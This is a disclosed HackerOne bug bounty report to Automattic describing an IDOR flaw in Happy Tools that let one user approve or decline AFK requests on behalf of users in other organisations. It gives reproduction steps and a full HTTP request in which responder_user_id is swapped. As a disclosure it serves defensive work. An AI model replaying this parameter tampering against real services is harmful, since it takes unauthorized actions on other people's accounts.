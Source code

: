 # [IDOR] Attacker user can Approve/Decline AFK on the behalf of other users

## Report Details
- **Report ID**: 725569
- **URL**: https://hackerone.com/reports/725569
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-10-30T16:51:59.065Z
- **Disclosed**: 2019-12-01T06:46:30.480Z

## Reporter
- **Username**: sachin_kr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:
Hi team
Hope you are good
Missing proper authorization checks on the vulnerable request allows an attacker to approve/decline afk of users on the behalf of other user who is a member of other organization. This can be exploited simply by changing the responder_user_id in the vulnerable request.

## Platform(s) Affected:
[Happy tools / Website]

## Steps To Reproduce:
1. Create two accounts for happy tools and login into two different browsers say accounts 1 and 2 and browser A and B.
2. Configure browser A with burp proxy
3. Put an AFK request.
4. Go to https://schedule.happy.tools/afk and click on approve or decline and capture the request in burp.
5. Now replace the value of `responder_user_id` with the user id of account 2.
6. Valid response is shown.

## Supporting Material/References:
F621606
In this screenshot, the `user_id: 1920` is the id of user who belongs to account 1 and the `responder_user_id:1923` is the id of user B who belongs to different account and both users belong to different organizations.

###Vulnerable request :
```
POST /wpcom/v2/happytools/external/v1/schedule/afk-requests/12346 HTTP/1.1
Host: public-api.wordpress.com
Connection: close
Content-Length: 208
Accept: application/json, text/plain, */*
Origin: https://schedule.happy.tools
Authorization: ZZZZZZZZZZZZZZZZZ
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: cors
Content-Type: application/json;charset=UTF-8
Sec-Fetch-Site: cross-site
Referer: https://schedule.happy.tools/afk
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

{"notes":"\">","timezone":"Africa/Bamako","approval_status":2,"end_at":1572048000,"is_last_minute":false,"responded_at":1572472124,"responder_user_id":1923,"start_at":1572048000,"type_id":1808,"user_id":1920}
```

## Impact

Using this issue an attacker to approve/decline AFK of users on the behalf of other user who is a member of other organization. This can be exploited simply by changing the responder_user_id parameter in the vulnerable request 
For more info please let me know
Thanks, regards 
Sachin

## Attachments
- Screenshot_from_2019-10-31_03-41-28.png
